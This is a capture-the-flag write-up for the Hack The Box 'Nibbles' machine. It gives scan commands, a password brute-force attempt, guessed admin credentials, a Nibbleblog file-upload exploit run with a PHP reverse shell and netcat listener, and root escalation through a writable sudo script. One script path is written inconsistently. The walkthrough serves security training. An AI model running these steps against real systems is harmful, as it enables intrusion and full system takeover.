 # Nibbles [HTB](https://app.hackthebox.com/machines/Nibbles)
![nibbles-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/nibbles-01.png)

## Recon

After adding the target to my `/etc/hosts` file, i fire off an `nmap` scan:

```bash
nmap -sC -sV -A -p- nibbles.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/nmap-res-02.png)

We have the following:

+ An SSH server on port 22.
+ An Apache server on port 80.

Lets take a look at the Apache server and see what we can gather. 


### Apache Port 80

If we open the site at `http://nibbles.htb` we get:

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/site-03.png)

If we take a look at the source code, we can see an interesting comment:

![source-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/source-04.png)

Lets open this directory at `http://nibbles.htb/nibbleblog`:

![blog-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/blog-05.png)

This is a blog site powered by `Nibbleblog`, all links lead to this home page. Lets take a look at the 
source code once again:

![blog-src-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/blog-src-06.png)

Looks like we have an `admin` directory, lets see whats inside:

![admin-dir-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/admin-dir-07.png)

As you can see, I've had a look around and i found the following directory `http://nibbles.htb/nibbleblog/admin/templates/easy4/index.bit`: 

![easy4-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/easy4-08.png)

If you hover over the `Dashboard` link, youll see it outlines the parameters to get the admin login page: 
`http://nibbles.htb/nibbleblog/admin.php?controller=dashboard`

![admin-login-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/admin-login-09.png)

Iv'e tried to hunt down the admin password on the site, i couldnt find it. I also tried to search Google
for the default password, but without success as well. So i decided to brute force it. 

I opened `Burp`, capture a login request and send it to `Intruder`. Here i added the password field:

![intruder-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/intruder-10.png)

I use a `Sniper` attack with `/usr/share/wordlists/john.list` as the password wordlist:

![setup-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/setup-11.png)

I run the attack and i get Blacklisted after 5 attempts:

![blocked-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/blocked-12.png)

So i take a step back and decide to enumerate further with a directory busting scan:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://nibbles.htb/nibbleblog/FUZZ
``` 

The two most interesting results are:


![ffuf-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/content-13.png)

![ffuf-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/ffuf-14.png)


The `content` folder has some interesting `xml` files, like `/private/users.xml`, but it doesnt have the 
admin password. If we take a look at the `README` page:

![readme-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/readme-15.png)

We can see the version of the backend CMS. If we search Google, we can find a [public exploit](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html):

![exploit-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/exploit-16.png)

There is also a Metasploit version, but we need the admin credentials. but we cant brute force, so lets try to guess. After a few failed attempts i found the credentials are `admin : nibbles`:

![admin-page-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/admin-page-17.png)

Now that we know the credentials we can try this file upload [exploit](https://github.com/dix0nym/CVE-2015-6967).  We need a PHP reverse shell, i use [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s

Make sure to update your listener's information:

![update-rshell-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/update-rshell-18.png)

Setup the listner with:

```bash
rlwrap nc -lnvp 443
```

Run the exploit with:

```bash
python3 exploit.py --url http://nibbles.htb/nibbleblog/ --username admin --password nibbles --payload rshell.php
```

This should give you access to the system:

![shell-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/shell-20.png)



## Privilege Escalation


If we check our `sudo` privileges with:

```bash
sudo -l
```

![sudo-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/sudo-21.png)


We can run a bash script located in our home directory as root. But if `cd` into our user's home directory
we see the following:

![home-dir-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/home-dir-22.png)

No `personal` directory, instead we have a zip archive. Lets unzip it:

```bash
unzip personal.zip
```
![unzip-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/unzip-23.png)


Now if check our user's permissions to this script with `ls -l` we can see:

![perms-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/perms-23.png)

We have full read, write and execute permissions to this script. And since we can run it as root via sudo,
we can edit the file to run whatever command we want with elavated privileges. 

I just start a bash session at the end of the script:

```bash
echo "/bin/bash" >> /personal/stuff/monitor.sh
```

And i execute it with sudo:

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

![root-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/root-24.png)

